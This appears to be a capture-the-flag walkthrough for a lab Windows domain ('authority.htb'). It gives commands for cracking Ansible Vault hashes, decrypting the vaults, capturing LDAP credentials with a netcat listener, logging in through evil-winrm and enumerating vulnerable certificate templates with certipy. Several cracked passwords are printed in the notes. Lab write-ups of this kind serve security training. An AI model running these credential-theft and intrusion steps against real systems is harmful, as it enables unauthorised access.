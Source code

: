 
## Initial Shell and Foothold

- Clean up and process Ansible Vault files:
    ```
    sed -i 's/^[ \t]*//' vault1
    python3 /usr/share/john/ansible2john.py vault1
    ```

- Crack Ansible Vault credentials:
    ```
    hashcat -m 16900 vault_hashes /usr/share/wordlists/rockyou.txt
    ```

- Decrypt Ansible Vaults:
    ```
    cat vault1 | ansible-vault decrypt
    # Use cracked passwords: svc_pwm, pWm_@dm!N_!23, DevT3st@123
    ```

- Login to PWM web panel (manually via browser) using discovered credentials.

---

## Cracking & Ansible Vault Decryption

- Listen for LDAP connections:
    ```
    nc -lvnp 389
    ```

- Trick server with "Test LDAP Profile" to extract credentials.

- Now connect to host as found user:
    ```
    evil-winrm -i 10.129.229.56 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
    ```

---

## Lateral Movement & LDAP Extraction

- Certificate Template Enumeration:
    ```
    certipy find -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.126.53 -vulnerable
    cat 20250905104131_Certipy.txt
    ```

- Check MachineAccountQuota:
    ```
    crackmapexec ldap 10.129.126.53 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq
    ```
